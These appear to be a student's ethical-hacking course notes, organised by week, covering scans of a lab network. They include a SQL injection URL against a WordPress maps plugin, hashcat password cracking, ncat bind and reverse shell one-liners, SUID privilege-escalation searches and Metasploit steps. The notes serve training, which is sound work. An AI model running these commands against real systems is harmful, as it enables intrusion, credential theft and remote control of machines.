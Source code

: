 # Ethical Hacking Playbook Notes

## Week 1: First Steps & Cracking WP 
- Get IP address of vulnerable machine
  - `ip a` to get IP addresses of hacking machine
  - Review output to find the relevant network id
  - `nmap [ip]/[subnet-mask] -T5` to get list of everything on that network
  - Look at output - one of them will be the hacker devices and others will be the target devices. Find the target device
- NMAP of vulnerable device to see what it's got going on
  - `nmap -sV [ip addr] -T5 -p-` to scan all ports on the target device (this also banner grabs)
```
  PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
4343/tcp open  unicall?
```
- Review what is running
  - We see that 80/tcp is open so we can use Nikto to see what is running
- Nikto
  - `nikto -h http://[ip]`
  - From here, we can see that WordPress exists so we can use WP Scan to dig into it
- WP Scan
  - `wpscan --url http://[ip]`
  - From this we can see what plugins are on the WordPress. Open their readmes and check what their versions are then google it to find the vulnerable one.
- WP Rest Route
  - `http://loan.atlas.local/index.php?rest_route=/wpgmza/v1/markers&filter={}&fields=*from%20Information_schema.tables--%20-`
- Hashcat
  - Cracks password hashes. Needs Wordlist (https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) and `hashfile` (creatable using vi and the JSON output of the WP Rest Route)
  - Run hashcat with the command `hashcat -m 400 -a 0 hashfile rockyou.txt` (options `-D 1` to use cpu; `--show` to output found pws)

# Week 2: Further Information Gathering
- Finding Info about devices over the internet
  - `ping`, `nslookup`, `traceroute`, `whois`, `host`, `dig`, etc
  - DNS Recon: `dnsrecon -d [domain] -t afxr`
  - DNS Enumeration: `dnsenum [domain]`
- Directory Scanning
  - gobuster
    - `gobuster -u http://[url] -w [path_to_wordlist]`
    - Can pass output to grep to filter out redirects `| grep -v '301|\302`
    - Review the output contents

# Week 3: Exploitation Concepts
- Bind Shell (nb `ncat` can be swapped out for `nc`) (target connects to attack)
  - On target machine (will probably be through an injection point): `ncat -lvnp 4444 -e /bin/bash`
  - On attack machine: `ncat [target ip] 444`
- Reverse shell
  - Attack machine: `ncat -lvnp 4444`
  - Target machine: `ncat [attack_ip] 4444 -e /bin/bash`
- Spawning Interactive Shell using python
  - Check which python installed: `which python python3`
  - Span (swap `python` for `python3` if needed): `python -c 'import pty; pty.spawn("/bin/bash")'`
- Finding plaintext passwords `find / -name "password"`

## Finding SUID bits
These are the bits which mean any account can run the cmd as root:
`find / -perm -u=s -type f 2>/dev/null ` 
then lookup on https://gtfobins.github.io/

## Metsaploit
- `msfconsole` to get into it
- `use exploit [exploit path]` to define which exploit to use
- Set target (`show targets`, `set TARGET [targetId]`)
- Options (`show options` `set [optionName] [val]`) for required options (RHOSTS is the target ip / uri)
- Run `exploit` to exploit the vulnerability, it gives diagnostic messages
- should then get `meterpreter>` prompt, `help` gives list of available commands. from here, get into shell then you're into normal shell steps
- check wp-config.php!
- `sudo su` to switch user to root account
- 